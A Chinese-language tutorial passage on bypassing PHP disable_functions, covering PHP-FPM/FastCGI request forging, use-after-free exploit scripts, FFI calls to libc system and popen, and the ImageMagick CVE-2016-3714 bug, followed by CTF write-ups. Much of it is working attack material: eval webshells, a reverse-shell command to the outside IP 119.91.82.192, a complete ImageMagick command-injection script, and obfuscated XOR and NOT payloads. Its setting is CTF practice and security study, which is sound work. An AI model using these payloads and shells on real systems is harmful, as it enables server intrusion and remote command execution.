既然是利用PHP-FPM，我们首先需要了解一下什么是PHP-FPM，研究过apache或者nginx的人都知道，早期的Web服务器负责处理全部请求，其接收到请求，读取文件，然后传输过去。换句话说，早期的Web服务器只处理Html等静态Web资源。

但是随着技术发展，出现了像PHP等动态语言来丰富Web，形成动态Web资源，这时Web服务器就处理不了了，那就交给PHP解释器来处理吧！交给PHP解释器处理很好，但是，PHP解释器该如何与Web服务器进行通信呢？为了解决不同的语言解释器（如php、python解释器）与Web服务器的通信，于是出现了CGI协议。只要你按照CGI协议去编写程序，就能实现语言解释器与Web服务器的通信。如PHP-CGI程序。

其实，在上一节中我们已经了解了CGI以及Apache Mod CGI方面的知识了，下面我们再来继续补充一下。

**Fast-CGI**

有了CGI，自然就解决了Web服务器与PHP解释器的通信问题，但是Web服务器有一个问题，就是它每收到一个请求，都会去Fork一个CGI进程，请求结束再kill掉这个进程，这样会很浪费资源。于是，便出现了CGI的改良版本——Fast-CGI。Fast-CGI每次处理完请求后，不会kill掉这个进程，而是保留这个进程，使这个进程可以一次处理多个请求（注意与另一个Apache Mod CGI区别）。这样就会大大的提高效率。

**Fast-CGI Record**

CGI/Fastcgi其实是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。

HTTP协议是**浏览器和服务器中间件**进行数据交换的协议，浏览器将HTTP头和HTTP体用某个规则组装成数据包，以TCP的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以HTTP协议的规则打包返回给服务器。

类比HTTP协议来说，CGI协议是**Web服务器和解释器**进行数据交换的协议，它由多条record组成，每一条record都和HTTP一样，也由header和body组成，Web服务器将这二者按照CGI规则封装好发送给解释器，解释器解码之后拿到具体数据进行操作，得到结果之后再次封装好返回给Web服务器。

和HTTP头不同，record的header头部固定的是8个字节，body是由头中的contentLength指定，其结构如下：

```php
typedef struct 
{
HEAD
    unsigned char version;              //版本
    unsigned char type;                 //类型
    unsigned char requestIdB1;          //id
    unsigned char requestIdB0;          
    unsigned char contentLengthB1;      //body大小
    unsigned char contentLengthB0;
    unsigned char paddingLength;        //额外大小
    unsigned char reserved;       
BODY
   unsigned char contentData[contentLength];//主要内容
   unsigned char paddingData[paddingLength];//额外内容
}FCGI_Record;
```

详情请看：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html#fastcgi-record

**PHP-FPM**

前面说了那么多了，那PHP-FPM到底是个什么东西呢?

其实FPM就是Fastcgi的协议解析器，Web服务器使用CGI协议封装好用户的请求发送给谁呢? 其实就是发送给FPM。FPM按照CGI的协议将TCP流解析成真正的数据。

举个例子，用户访问`http://127.0.0.1/index.php?a=1&b=2`时，如果web目录是`/var/www/html`，那么Nginx会将这个请求变成如下key-value对：

```php
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

这个数组其实就是PHP中`$_SERVER`数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充`$_SERVER`数组，也是告诉fpm：“我要执行哪个PHP文件”。

PHP-FPM拿到Fastcgi的数据包后，进行解析，得到上述这些环境变量。然后，执行`SCRIPT_FILENAME`的值指向的PHP文件，也就是`/var/www/html/index.php`。

如何攻击：

这里由于FPM默认监听的是9000端口，我们就可以绕过Web服务器，直接构造Fastcgi协议，和fpm进行通信。于是就有了利用 Webshell 直接与 FPM 通信 来绕过 disable functions 的姿势。

因为前面我们了解了协议原理和内容，接下来就是使用CGI协议封装请求，通过Socket来直接与FPM通信。

但是能够构造Fastcgi，就能执行任意PHP代码吗？答案是肯定的，但是前提是我们需要突破几个限制。

**第一个限制**

既然是请求，那么`SCRIPT_FILENAME`就相当的重要，因为前面说过，fpm是根据这个值来执行PHP文件文件的，如果不存在，会直接返回404，所以想要利用好这个漏洞，就得找到一个已经存在的PHP文件，好在一般进行源安装PHP的时候，服务器都会附带上一些PHP文件，如果说我们没有收集到目标Web目录的信息的话，可以试试这种办法.

**第二个限制**

即使我们能控制`SCRIPT_FILENAME`，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。那要如何绕过这种限制呢？我们可以从`php.ini`入手。它有两个特殊选项，能够让我们去做到任意命令执行，那就是`auto_prepend_file`和`auto_append_file`。`auto_prepend_file`的功能是在执行目标文件之前，先包含它指定的文件。那么就有趣了，假设我们设置`auto_prepend_file`为`php://input`，那么就等于在执行任何PHP文件前都要包含一遍POST过去的内容。所以，我们只需要把待执行的代码放在POST Body中进行远程文件包含，这样就能做到任意代码执行了。

**第三个限制**

我们虽然可以通过远程文件包含执行任意代码，但是远程文件包含是有`allow_url_include`这个限制因素的，如果没有为`ON`的话就没有办法进行远程文件包含，那要怎么设置呢? 这里，PHP-FPM有两个可以设置PHP配置项的KEY-VALUE，即`PHP_VALUE`和`PHP_ADMIN_VALUE`，`PHP_VALUE`可以用来设置php.ini，`PHP_ADMIN_VALUE`则可以设置所有选项（disable_functions 选项除外），这样就解决问题了。

所以，我们最后最后构造的请求如下：

```php
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/name.php',
    'SCRIPT_NAME': '/name.php',
    'QUERY_STRING': '?name=alex',
    'REQUEST_URI': '/name.php?name=alex',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '6666',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

该请求设置了`auto_prepend_file = php://input`且`allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码了。

这里附上P神的EXP：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

**利用方法：**

源码

```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```

查看phpinfo发现设置了disable_functions，并且，我们发现目标主机配置了FPM/Fastcgi：


我们便可以通过PHP-FPM绕过disable_functions来执行命令。

在蚁剑中有该通过PHP-FPM模式绕过disable_functions的插件：


注意该模式下需要选择 PHP-FPM 的接口地址，需要自行找配置文件查 FPM 接口地址，默认的是`unix:///`本地 Socket 这种的，如果配置成 TCP 的默认是`127.0.0.1:9000`。

我们本例中PHP-FPM 的接口地址，发现是`127.0.0.1:9000`：


所以在此处选择`127.0.0.1:9000`：


点击开始按钮：


成功后可以看到 /var/www/html/`目录下新建了一个 `.antproxy.php` 文件。我们创建副本, 并将连接的 URL shell 脚本名字改为 `.antproxy.php`, 就可以成功执行命令


在新的shell里面就可以成功执行命令了：




#### 七、利用 GC UAF

**使用条件：**

* Linux 操作系统
* PHP 版本
  * 7.0 - all versions to date
  * 7.1 - all versions to date
  * 7.2 - all versions to date
  * 7.3 - all versions to date

原理简述：

此漏洞利用PHP垃圾收集器中存在三年的一个 [bug](https://bugs.php.net/bug.php?id=72530)，通过PHP垃圾收集器中堆溢出来绕过`disable_functions`并执行系统命令。

利用脚本：https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass

**利用方法：**

源码

```php
<title>Check_In</title>
<?php 
highlight_file(__FILE__);
class ClassName
{
        public $code = null;
        public $decode = null;
        function __construct()
        {
                $this->code = @$this->x()['Ginkgo'];
                $this->decode = @base64_decode( $this->code );
                @Eval($this->decode);
        }

        public function x()
        {
                return $_REQUEST;
        }
}
new ClassName();
```

构造如下拿到shell：

```php
/?Ginkgo=ZXZhbCgkX1BPU1Rbd2hvYW1pXSk7   
#eval($_POST[whoami]); 
```



需要下载利用脚本：https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass

下载后，在pwn函数中修改成POST传参：



然后上传到目标服务器有写入权限的目录下，这里我们上传到/tmp目录下


然后将exploit.php包含进来并使用POST方法提供你想要执行的命令即可：

```php
/?Ginkgo=aW5jbHVkZSgiL3RtcC9leHBsb2l0LnBocCIpOwo=
# include("/tmp/exploit.php");

POST: cmd=whoami
```


#### 八、利用 Backtrace UAF

**使用条件：**

* Linux 操作系统
* PHP 版本
  * 7.0 - all versions to date
  * 7.1 - all versions to date
  * 7.2 - all versions to date
  * 7.3 < 7.3.15 (released 20 Feb 2020)
  * 7.4 < 7.4.3 (released 20 Feb 2020)

原理简述：

该漏洞利用在debug_backtrace()函数中使用了两年的一个 [bug](https://bugs.php.net/bug.php?id=76047)。我们可以诱使它返回对已被破坏的变量的引用，从而导致释放后使用漏洞。

利用脚本：https://github.com/mm0r1/exploits/tree/master/php7-backtrace-bypass

利用方法：

利用方法和GC UAF绕过disable_functions相同。下载利用脚本后先对脚本像上面那样进行修改，然后将修改后的利用脚本上传到目标主机上，如果是web目录则直接传参执行命令，如果是其他有权限的目录，则将脚本包含进来再传参执行命令。


#### 九、利用 Json Serializer UAF

**使用条件：**

* Linux 操作系统

* PHP 版本
  * 7.1 - all versions to date
  * 7.2 < 7.2.19 (released: 30 May 2019)
  * 7.3 < 7.3.6 (released: 30 May 2019)

原理简述：

此漏洞利用json序列化程序中的释放后使用[漏洞](https://bugs.php.net/bug.php?id=77843)，利用json序列化程序中的堆溢出触发，以绕过`disable_functions`和执行系统命令。尽管不能保证成功，但它应该相当可靠的在所有服务器 api上使用。

利用脚本：https://github.com/mm0r1/exploits/tree/master/php-json-bypass

利用方法：

利用方法和其他的UAF绕过disable_functions相同。下载利用脚本后先对脚本像上面那样进行修改，然后将修改后的利用脚本上传到目标主机上，如果是web目录则直接传参执行命令，如果是其他有权限的目录，则将脚本包含进来再传参执行命令。

题目源码：

```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```

查看phpinfo发现已经设置了disable_functions：

```php
?ant=phpinfo();
```



首先我们下载利用脚本：https://github.com/mm0r1/exploits/tree/master/php-json-bypass

下载后，像之前那样对脚本稍作修改：



将脚本像之前那样上传到有权限的目录（/tmp/exploit.php）后包含执行即可：

```php
/?ant=include("/tmp/exploit.php");
POST: cmd=ls /
```


在蚁剑中有也该绕过disable_functions的插件：




#### 十、利用 SplDoublyLinkedList UAC

**使用条件：**

* PHP 版本

  * PHP v7.4.10及其之前版本
  * PHP v8.0（Alpha）

原理简述：

2020年9月20号有人在 bugs.php.net 上发布了一个新的 UAF [BUG](https://bugs.php.net/bug.php?id=80111)，报告人已经写出了 bypass disabled functions 的利用脚本并且私发了给官方，不过官方似乎还没有修复，原因不明。

PHP的SplDoublyLinkedList双向链表库中存在一个用后释放漏洞，该漏洞将允许攻击者通过运行PHP代码来转义disable_functions限制函数。在该漏洞的帮助下，远程攻击者将能够实现PHP沙箱逃逸，并执行任意代码。更准确地来说，成功利用该漏洞后，攻击者将能够绕过PHP的某些限制，例如disable_functions和safe_mode等等。

详情请看：https://www.freebuf.com/articles/web/251017.html


#### 十一、利用 FFI 扩展执行命令

**使用条件：**

* Linux 操作系统
* PHP >= 7.4
* 开启了 FFI 扩展且`ffi.enable=true`

原理简述：

PHP 7.4 的 FFI（Foreign Function Interface），即外部函数接口，允许从用户在PHP代码中去调用C代码。

FFI的使用非常简单，只用声明和调用两步就可以。

首先我们使用`FFI::cdef()`函数在PHP中声明一个我们要调用的这个C库中的函数以及使用到的数据类型，类似如下：

```php
$ffi = FFI::cdef("int system(char* command);");   # 声明C语言中的system函数
```

这将返回一个新创建的FFI对象，然后使用以下方法即可调用这个对象中所声明的函数：

```php
$ffi ->system("ls / > /tmp/res.txt");   # 执行ls /命令并将结果写入/tmp/res.txt
```

由于system函数执行命令无回显，所以需要将执行结果写入到tmp等有权限的目录中，最后再使用`echo file_get_contents("/tmp/res.txt");`查看执行结果即可。

可见，当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数或其他能实现我们需求的函数，然后再通过FFI变量调用该C函数即可Bypass disable_functions。

利用方法：

下面，我们通过 [[极客大挑战 2020\]FighterFightsInvincibly](https://whoamianony.top/2020/10/26/CTF比赛记录/2020 极客大挑战 WriteUp/#FighterFightsInvincibly（使用PHP-FFI绕过disabled-function）)这道题来演示利用PHP 7.4 FFI来突破disable_functions的具体方法。

进入题目：


查看源码发现提示：



```php
$_REQUEST['fighter']($_REQUEST['fights'],$_REQUEST['invincibly']);
```

可以动态的执行php代码，此刻应该联想到create_function代码注入：

```php
create_function(string $args,string $code)
//string $args 声明的函数变量部分
//string $code 执行的方法代码部分
```

我们令`fighter=create_function`，`invincibly=;}eval($_POST[whoami]);/*`即可注入恶意代码并执行。

payload：

```php
/?fighter=create_function&fights=&invincibly=;}eval($_POST[cmd]);/*
```

使用蚁剑成功连接，但是无法访问其他目录也无法执行命令：



很有可能是题目设置了disable_functions，我们执行一下phpinfo()看看：

```php
/?fighter=create_function&fights=&invincibly=;}phpinfo();/*
```

发现果然用disable_functions禁用了很多函数：


根据题目名字的描述，应该是让我们使用PHP 7.4 的FFI绕过disabled_function，并且我们在phpinfo中也看到

FFI处于enable状态：



**（一）利用FFI调用C库的system函数**

我们首先尝试调用C库的system函数：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system("ls / > /tmp/res.txt");echo file_get_contents("/tmp/res.txt");/*
```

C库的system函数执行是没有回显的，所以需要将执行结果写入到tmp等有权限的目录中，最后再使用`echo file_get_contents("/tmp/res.txt");`查看执行结果即可。

但是这道题执行后却发现有任何结果，可能是我们没有写文件的权限。尝试反弹shell：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system('bash -c "bash -i >& /dev/tcp/119.91.82.192/4444 0>&1"')/*
```

但这里也失败了，可能还是权限的问题。所以，我们还要找别的C库函数。

**（二）利用FFI调用C库的popen函数**

C库的system函数调用shell命令，只能获取到shell命令的返回值，而不能获取shell命令的输出结果，如果想获取输出结果我们可以用popen函数来实现：

```php
FILE *popen(const char* command, const char* type);
```

popen()函数会调用fork()产生子进程，然后从子进程中调用 /bin/sh -c 来执行参数 command 的指令。

参数 type 可使用 "r"代表读取，"w"代表写入。依照此type值，popen()会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。

所以，我们还可以利用C库的popen()函数来执行命令，但要读取到结果还需要C库的fgetc等函数。payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$o = $ffi->popen("ls /","r");$d = "";while(($c = $ffi->fgetc($o)) != -1){$d .= str_pad(strval(dechex($c)),2,"0",0);}$ffi->pclose($o);echo hex2bin($d);/* 
```

成功执行命令：



**（三）利用FFI调用PHP源码中的函数**

其次，我们还有一种思路，即FFI中可以直接调用php源码中的函数，比如这个php_exec()函数就是php源码中的一个函数，当他参数type为3时对应着调用的是passthru()函数，其执行命令可以直接将结果原始输出，payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int php_exec(int type, char *cmd);");$ffi->php_exec(3,"ls /");/*
```

成功执行命令：



在蚁剑中有该绕过disable_functions的插件：



点击开始按钮后，成功之后, 会创建一个新的虚拟终端，在这个新的虚拟终端中即可执行命令了。


#### 十二、利用 ImageMagick

**使用条件：**

* 目标主机安装了漏洞版本的imagemagick（<= 3.3.0）
* 安装了php-imagick拓展并在php.ini中启用；
* 编写php通过new Imagick对象的方式来处理图片等格式文件；
* PHP >= 5.4

原理简述：

imagemagick是一个用于处理图片的程序，它可以读取、转换、写入多种格式的图片。图片切割、颜色替换、各种效果的应用，图片的旋转、组合，文本，直线，多边形，椭圆，曲线，附加到图片伸展旋转。

利用ImageMagick绕过disable_functions的方法利用的是ImageMagick的一个漏洞（CVE-2016-3714）。漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的ImageMagick，ImageMagick会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。所以如果在phpinfo中看到有这个ImageMagick，可以尝试一下。

利用方法：

我们使用网上已有的docker镜像来搭建环境：

```php
docker pull medicean/vulapps:i_imagemagick_1
docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1
```

启动环境后，访问 [http://your-ip:8000](http://your-ip:8000/)端口：



假设此时目标主机仍然设置了disable_functions只是我们无法执行命令，并且查看phpinfo发现其安装并开启了ImageMagick拓展：



此时我们便可以通过攻击ImageMagick绕过disable_functions来执行命令。

将一下利用脚本上传到目标主机上有权限的目录（/var/tmp/exploit.php）：

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
   $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```

然后包含该脚本并传参执行命令即可。


## 命令执行CTF题目

### 例题一

题目源代码

```php
<?php

include'flag.php';

if(isset($_GET['code'])){
   $code=$_GET['code'];
   if(strlen($code)>50){
       die("Too Long.");
  }
   if(preg_match("/[A-Za-z0-9_]+/",$code)){
       die("Not Allowed.");
  }
   @eval($code);
}else{
   highlight_file(__FILE__);
}
//$hint = "php function getFlag() to get flag";
?> 

```

**payload**

```php
code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
```

分解:
$_="{{{"^"?<>/";=$_="GET";
${$_}[_](${$_}[__]);=$_GET[_]($_GET[__]);=getFlag($_GET[__])=getFlag(null);
这个 payload 的长度是 37 ，符合题目要求的 小于等于40 。另fuzz 出了长度为 28 的 payload ，如下：

```php
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```


**`fuzz`脚本**

```php
<?php
$a = str_split('getFlag');
for($i = 0; $i < 256; $i++){
    $ch = '{'^ chr($i);
    if (in_array($ch, $a , true)) {
        echo "{ ^ chr(".$i.") = $ch<br>";
    }
}
echo "{{{{{{{"^chr(28).chr(30).chr(15).chr(61).chr(23).chr(26).chr(28);
?>
```


### 例题二

题目源代码

```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>50){
        die("Too Long.");
    }
    if(preg_match("/[A-Za-z0-9_]+/",$code)){
        die("Not Allowed.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}
highlight_file(__FILE);
// $hint = "php function getFlag() to get flag";
?>
```

**payload**

只是多过滤了个下划线`_`
中文做变量名

```php
$哼="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$哼();
```

+做变量名

```php
${"`{{{"^"?<>/"}['+']();&+=getFlag
```


### ctfshow web42题

题目源代码

```php
<?php
    if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

分析代码，正则过滤了所有数字以及大小写字母和部分符号，接下来尝试构造字符串绕过

& 按位与 |按位或 ^ 按位异或 ~取反 为四大位运算符，其中按位异 | 没有过滤，过滤的字符是防异或、自增和取反构造字符

**python脚本如下** 

```python
import re
import requests

url = 'http://59b03ba7-ad83-4a88-bd39-ff72f6222dfd.challenge.ctf.show/'

li = []
for i in range(0,256):
    c = chr(i)
    str_re = re.match(r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-',c, re.I)
    if not str_re:
        li.append(i)
    else:
        continue

system = "system"
args = 'cat flag.php'
str1 = ''
str2 = ''
def fun(k,system):
    global str1,str2
    for i in range (0,len(li)):
        for j in range(i,len(li)):
            if(li[i]|li[j]==ord(system[k])):
                str1+=chr(li[i])
                str2+=chr(li[j])
                return

for k in range(0,len(system)):
    fun(k,system)
data1="(\""+str1+"\"|\""+str2+"\")"

str1 = ''
str2 = ''
for k in range(0,len(args)):
    fun(k,args)
data2="(\""+str1+"\"|\""+str2+"\")"

data = {"c":data1+data2}
result = requests.post(url=url,data=data)
print(result.text)
```

成功获取到flag


### [极客大挑战 2019]RCE ME

题目源码：

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

分析代码，Get方式接收code参数传来的值，首先判断值不能超过40位，然后用正则过滤了大小写字母和数字，最后传到eval函数执行

遇到这种题目，可以考虑异或或者取反绕过。

下面用取反先构造一个phpinfo的payload，看一下PHP版本以及禁用函数：

```php
 php -r 'echo urlencode(~"phpinfo");'
```


```php
?code=(~%8F%97%8F%96%91%99%90)();
```

版本为php7，过滤system,exec,shell_exec等函数


构造一个webshell连上蚁剑

shell.php文件内容

```php
<?php 
error_reporting(0);
$a='assert';
$b=urlencode(~$a);
echo $b;
echo "\n";
$c='(eval($_POST["cmd"]))';
$d=urlencode(~$c);
echo $d;
 ?>
```



Payload：?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%9C%92%9B%DD%A2%D6%D6); 

**连接上蚁剑**



用蚁剑上的插件绕过disable_functions，最后在根目录下执行/readfile文件成功拿到flag




参考资料：

https://www.freebuf.com/articles/network/263540.html

https://www.cxymm.net/article/nigo134/118462599

https://www.squidward.xyz/2020/10/28/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/

https://www.cnblogs.com/ophxc/p/12826497.html

https://www.bbsmax.com/A/kPzOEEEa5x/

